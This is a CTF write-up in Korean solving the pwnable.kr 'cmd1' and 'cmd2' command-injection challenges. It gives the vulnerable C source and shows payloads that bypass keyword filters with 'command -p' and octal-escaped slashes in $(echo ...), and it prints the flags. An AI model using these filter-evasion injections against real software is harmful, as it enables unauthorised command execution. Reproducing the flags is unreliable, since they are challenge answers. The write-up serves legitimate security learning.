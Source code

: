```yaml
---
title : "Pwnable.kr - cmd1 & cmd2"
excerpt : "Toddler's Bottle - cmd1 & cmd2"
toc: true
toc_sticky: true
categories :
  - Pwnable.kr
---
```


# cmd1
```
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)
```
```c
/*  cmd1.c  */

#include <stdio.h>    
#include <string.h>   

int filter(char* cmd){
        int r=0;      
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```

# Solution
```
cmd1@pwnable:~$ ./cmd1 '/bin/cat fla*'
mommy now I get what PATH environment is for :)
```

# cmd2 (풀이 봄)
```
Daddy bought me a system command shell.
but he put some filters to prevent me 
from playing with it without his permission...
but I wanna play anytime I want!
```
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```

# cmd2 Solution(풀이 봄)
```
/bin/cat fla* 가 불가능함.

엄청 오래 생각해봤지만.. 실패해서 답지를 확인함. 

내가 풀이를 보면서 이해한 방법은 두 가지가 있음.
```

## 1. command 명령어 사용
```linux
$ help -- command
command: command [-pVv] command [arg ...]
    Execute a simple command or display information about commands.

    Runs COMMAND with ARGS suppressing  shell function lookup, or display
    information about the specified COMMANDs.  Can be used to invoke commands
    on disk when a function with the same name exists.

    Options:
      -p    use a default value for PATH that is guaranteed to find all of
            the standard utilities
      -v    print a description of COMMAND similar to the `type' builtin
      -V    print a more verbose description of each COMMAND

    Exit Status:
    Returns exit status of COMMAND, or failure if COMMAND is not found.
```
```
command 명령어는 cat 같은 간단한 명령어들을 실행시켜 줄 수 있음. 

command -p 를 해주면 defalut PATH 값으로 명령어를 실행시켜줌.
```
```linux
cmd2@pwnable:~$ ./cmd2 'command -p cat fla*'
command -p cat fla*
FuN_w1th_5h3ll_v4riabl3s_haha
```

## 2. linux ascii-code 중 oct 값 사용
<a href="http://www.seren.net/documentation/unix%20utilities/Linux_Cheat_Sheet.htm" target="_blank">http://www.seren.net/documentation/unix%20utilities/Linux_Cheat_Sheet.htm</a>  
Linux Cheat Sheet에 보면 위에 있는 command 명령어도 써있고, 밑에 ASCII-CODE 값도 있음.  
```
dec hex oct char
46  2E \056  .

47  2F \057  /

48  30 \060  0
```
```linux
cmd2@pwnable:~$ ./cmd2 '$(echo "\057"bin"\057"cat fla*)'
$(echo "\057"bin"\057"cat fla*)
FuN_w1th_5h3ll_v4riabl3s_haha
```
printf 명령어로도 되는지 확인해보았음. 
필터링에 걸리는지 확인해보려고 로컬 환경에서 테스트 해봄.
```linux
:~$ ./test '$(printf "\x2fbin\x2fcat fla*")'
0
argv[1] : $(printf "\x2fbin\x2fcat fla*")
:~$ printf "\x2fbin\x2fcat fla*"
/bin/cat fla*
```
잘 나오는 것 같아서 해보니까 실패함.
```linux
cmd2@pwnable:~$ ./cmd2 '$(printf "\x2fbin\x2fcat fla*")'
$(printf "\x2fbin\x2fcat fla*")
sh: 1: \x2fbin\x2fcat: not found
```
직접 system 함수에 인자로 줘봤지만 echo만 나오고 실패.   
그냥 안되나봄.  
